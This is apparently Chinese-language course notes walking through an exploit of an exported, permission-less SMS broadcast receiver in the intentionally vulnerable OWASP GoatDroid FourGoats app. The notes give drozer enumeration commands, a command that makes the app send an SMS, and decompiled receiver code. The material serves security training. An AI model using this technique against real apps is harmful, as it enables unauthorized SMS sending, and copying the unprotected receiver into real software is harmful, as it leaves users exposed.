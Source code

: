 1. 查看攻击面，找到一个导出的广播接收器

```bash
dz> run app.package.attacksurface org.owasp.goatdroid.fourgoats
Attack Surface:
  4 activities exported
  1 broadcast receivers exported
  0 content providers exported
  1 services exported
    is debuggable
```

2. 查看Broadcast具体信息，找到广播的类名，以及注册的Intent的动作

```bash
dz> run app.broadcast.info -a org.owasp.goatdroid.fourgoats -i
Package: org.owasp.goatdroid.fourgoats
  org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver
    Intent Filter:
      Actions:
        - org.owasp.goatdroid.fourgoats.SOCIAL_SMS
    Permission: null
```

3. 如何利用？视频中老师直接给出以下这条命令：

```bash
dz> run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --extra string phoneNumber 10010 --extra string message hacked!

```

- 但是很奇怪这里phoneNumber以及message这个变量名字是如何得到的呢？还是只要是发送短信的广播接收器通用接受这两个参数？其实当然不是了。在上课的时候老师跳过了这个步骤，这里应当继续找到这个广播接收器的代码实现。  
- 因为软件没有加壳没有混淆，所以反编译后目录结构清楚，很容易找SendSMSNowReceiver结果如下：

```java
package org.owasp.goatdroid.fourgoats.broadcastreceivers;

import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.os.Bundle;
import android.telephony.SmsManager;
import org.owasp.goatdroid.fourgoats.misc.Utils;

public class SendSMSNowReceiver extends BroadcastReceiver {
    Context context;

    public SendSMSNowReceiver() {
        super();
    }

    public void onReceive(Context arg8, Intent arg9) {
        this.context = arg8;
        SmsManager v0 = SmsManager.getDefault();
        Bundle v6 = arg9.getExtras();
        v0.sendTextMessage(v6.getString("phoneNumber"), null, v6.getString("message"), null, null);
        Utils.makeToast(this.context, "Your text message has been sent!", 1);
    }
}
```
